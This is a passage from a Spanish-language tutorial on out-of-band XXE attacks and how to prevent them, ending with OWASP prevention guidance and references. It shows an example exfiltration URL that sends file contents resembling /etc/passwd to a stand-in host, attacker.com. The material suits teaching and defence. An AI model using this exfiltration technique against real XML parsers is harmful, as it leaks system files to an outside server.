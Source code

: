 Una vez que el analizador XML procesa el archivo DTD del atacante, la entidad de parámetro %all crea una entidad general llamada &send, que contiene la url que incluye el contenido del archivo nombrado anteriormente 

(http://attacker.com/collect.php?collect=root:!:0:0::/:/usr/bin/ksh…)
![](8.png)

Finalmente, una vez construida la URL, el analizador XML procesa la entidad &send, que realiza una solicitud al servidor del atacante.
![](9.png)

El atacante puede registrar la solicitud en sus extremos y reconstruir el archivo a partir de la entrada del registro.

## ¿Cómo prevenimos las vulnerabilidades XXE?
Prácticamente todas las vulnerabilidades XXE surgen porque la biblioteca de análisis XML de la aplicación admite características XML potencialmente peligrosas que la aplicación no necesita o no tiene la intención de utilizar. La forma más segura de prevenir XXE es siempre deshabilitar completamente las DTD (entidades externas).

La desactivación de DTD también hace que el analizador sea seguro contra ataques de denegación de servicios (DOS) como Billion Laughs. Si no es posible deshabilitar las DTD por completo, las entidades externas y las declaraciones de tipos de documentos externos deben deshabilitarse de la manera que sea específica para cada analizador.

Podemos ver una guía detallada de prevención de XXE para varios lenguajes y analizadores XML de forma específica en el siguiente link: [https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)


---

### Referencias

* https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
* https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/
* https://portswigger.net/web-security/xxe
* https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/